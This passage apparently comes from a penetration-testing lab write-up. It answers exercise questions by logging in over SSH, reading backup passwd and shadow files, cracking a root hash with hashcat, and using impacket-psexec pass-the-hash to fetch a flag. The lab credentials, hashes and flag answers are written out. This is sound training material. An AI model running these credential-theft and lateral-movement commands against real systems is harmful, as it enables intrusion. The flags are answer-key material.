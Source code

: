

#### Questions

**Examine the target using the credentials from the user Will and find out the password of the "root" user. Then, submit the password as the answer.**

* ssh will@10.129.115.79
  * PW: TUqr7QfLTLhruhVbCP
* ls -la
* cd .backups
* ls -la
* cat passwd.bak
* cat shadow.bak
  * root HASH here
    * $6$XePuRx/4eO0WuuPS$a0t5vIuIrBDFx1LyxAozOu.cVaww01u.6dSvct8AYVVI6ClJmY8ZZuPDP7IoXRJhYz4U8.DJUlilUw2EfqhXg.
      * nano hash.txt
* Decrypt Hash
  * generate mutated list
    * hashcat --force password.list -r custom.rule --stdout | sort -u > mut\_password.list
  * hashcat -m 1800 hash.txt mut\_password.list
    * <mark style="color:green;">**J0rd@n5**</mark>

<figure><img src=".gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

## Windows Lateral Movement

### Pass the hash (PtH)

#### Questions

**Access the target machine using any Pass-the-Hash tool. Submit the contents of the file located at C:\pth.txt.**

`impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453`

<mark style="color:green;">**G3t\_4CCE\$$\_V1@\_PTH**</mark>



**Try to connect via RDP using the Administrator hash. What is the name of the registry value that must be set to 0 for PTH over RDP to work? Change the registry key value and connect using the hash with RDP. Submit the name of the registry value name as the answer.**
